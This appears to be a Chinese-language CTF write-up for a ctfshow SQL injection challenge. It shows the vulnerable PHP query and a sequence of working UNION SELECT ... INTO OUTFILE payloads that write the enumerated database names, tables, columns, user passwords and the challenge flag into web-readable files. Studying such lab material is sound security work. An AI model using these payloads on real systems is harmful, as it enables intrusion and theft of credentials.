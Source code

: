#### 链接

[https://blog.csdn.net/solitudi/article/details/110144623]: sql注入	"sql注入byY4tacker"
[https://blog.csdn.net/solitudi/article/details/109446561]: 
[https://www.cnblogs.com/tianyu0125/p/14006275.html]: 



查询语句

```mysql
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```



返回逻辑

```php
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```



payload

 如果返回结果中没有ASCII码在 00-7f范围的，才会查询成功。 

1. 使用select ...... into outfile  '/var/www/html/xxx.txt'

```mysql
//判断注入
访问http://xxx/1.txt 查询虽然会失败但是已经保存
1' and 1=1 into outfile '/var/www/html/1.txt'--+

//判断字段
如果字段非2即结果错误则不会保存txt
1' order by 2 into outfile '/var/www/html/2.txt'--+

//判段数据库
1' union select user(),database() into outfile '/var/www/html/2.txt'--+
root@localhost			ctfshow_web

//判断table
1' union select database(),table_name from information_schema.tables where table_schema=database() into outfile '/var/www/html/3.txt'--+
ctfshow_web				ctfshow_user5


//判断字段

1' union select database(),column_name from information_schema.columns where table_name='ctfshow_user5' into outfile '/var/www/html/4.txt'--+
ctfshow_web	id
ctfshow_web	username
ctfshow_web	password



//判断内容

1' union select username,password from ctfshow_user5 into outfile '/var/www/html/5.txt'--+

user1	111
user5	222
userAUTO	passwordAUTO
flag	flag{796763c9-1237-44a1-84f9-8452baf63cbe}

```

